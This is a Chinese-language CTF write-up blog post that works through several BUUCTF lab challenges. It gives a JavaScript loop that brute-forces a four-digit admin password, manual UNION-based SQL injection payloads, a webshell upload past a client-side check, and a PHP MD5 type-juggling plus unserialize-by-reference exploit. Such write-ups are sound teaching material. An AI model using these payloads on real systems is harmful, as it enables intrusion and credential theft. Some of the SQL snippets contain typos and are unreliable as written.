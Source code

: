 ```yaml
---
title: "BUUCFT 题解"
date: 2023-07-23T08:19:53+08:00
markup: pandoc
draft: false
categories:
- BUUCFT
tags:
- BUUCFT
- 题解
hash: fe85798f9dc0fb130ba13b576d5b8fb92586f85f
---
```


娱乐性质，玩一玩。

## Linux Lab

使用 ssh 连接到靶机即可。

```shell
ssh root@address -p port
```

flag.txt 就放在根目录下面。

## BUUCFT

打开页面，首先给了一段代码。

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/7/9
 * Time: 7:07 AM
 */

highlight_file(__FILE__);

if(isset($_GET['file'])) {
    $str = $_GET['file'];

    include $_GET['file'];
}
```

这里的意思是，高亮当前文件，判断是否存在为 file 的 query 参数，如果存在，就加载它。

尝试一下 `?file=flag.txt` ，文件不存在；尝试 `?file=flag` ，页面中显示了 flag 。

## 暴力破解 1

首先是一个登录页面，查看了一下 HTML 代码，很干净，没有任何其他的东西。尝试写了句 SQL 注入，不行，所以没有注入的口子。

![](../img/buuctf_brute_1.png)

尝试用户名，是 admin 。尝试密码 1234 ，结果报密码错误，密码为四位数字。这里就只能写代码遍历所有四位整数了。因为频繁请求会被 429 ，但慢慢请求又太慢，所以只能遇到一个 429 就等待一下。

```javascript
function sleep(time) {
    return new Promise((resolve) => {
        setTimeout(resolve, time);
    });
}

(async () => {
    for (let i = 1000; i <= 9999; i++) {
        const result = await fetch(
            "http://26a432d9-687e-4232-a5ae-68052673cfa1.node4.buuoj.cn:81/?username=admin&password=" +
            i,
        ).then((res) => res.text());

        console.log(i);
        if (!result.startsWith("密码错误")) {
            if (result.includes("429")) {
                await sleep(500);
                i--;
                continue;
            }
            console.log(result);
            console.log(i);
            break;
        }
    }
})();
```

跑完后，结果是 6490 。

## BUU SQL COURSE 1

看题目是 SQL 注入。

登录没有注入，是个幌子。注入点在获取新闻详情里。

使用 `id=1 and 1=1` ，无报错，正常回显，存在注入。

这里使用手动注入，首先要确定 SQL 返回结果的列数，使用 `id=1 order by 1` 来一个个往后推，到 `id=1 order by 3` 时结果有错，因此，结果字段是两列。

接下来确定数据库，`id=1 union select 1, database()` 。

然后确定数据库内有哪些表，`id=1 union select 1, group_concat(table_name) from information.tables where table_schema='news'` 。

确定有哪些列，`id=1 union select 1, group(column_name) from information.columns where table_name='admin'` 。

最后拿到 admin 的密码，`id=1 union select username,password from admin`

登录就可以拿到 flag 了。

关于 `information_schema` ：

1. 猜库：select schema_name from information_schema.schema
2. 猜库中的表：select table_name from information_schema.tables where table_shcema="xxx"
3. 猜表中列：select column_name from information_schema.columns where table_name="xxx"

## Upload-Labs-Linux 1

### Pass 1

提示说用了前端 JS 检查。因为本身 form 就可以上传文件，而 JS 在这里只是起到了检查的作用，我们直接禁用 JS 即可。当然，我们也可以通过接口请求来绕过，只要不走这个 JS 就行。

我们需要上传一个 [webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) ，因为我用的需要上传两个文件，所以就上传了两遍。完成后查看回显地址，找到我们的 webshell 链接。一旦打开，我们就成功骇入了。

执行 `cat /flag` 即可获得 flag 。

## BUU CODE REVIEW 1

启动靶机，打开网页看到代码。

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

`pleaseget` 和 `pleasepost` 没有难度。MD5 值相当但值不相等利用的是 php `==` 的漏洞，如果两个字符串经过哈希后都以 `0E` 开头，PHP 会把它们解释为 `0` 。比如，`QNKCDZO` 和 `240610708` 。

剩下的序列化是，由于 `uniqid()` 得出的值以微秒计，所以不能用值生成来做。这里比较巧妙的采用了引用。

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

$a = new BUU();
$a -> input = &$a -> correct;

echo serialize($a);
```

结果是：

```
O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
```

然后把这些值往 postman 里填就行，记得是 POST 。
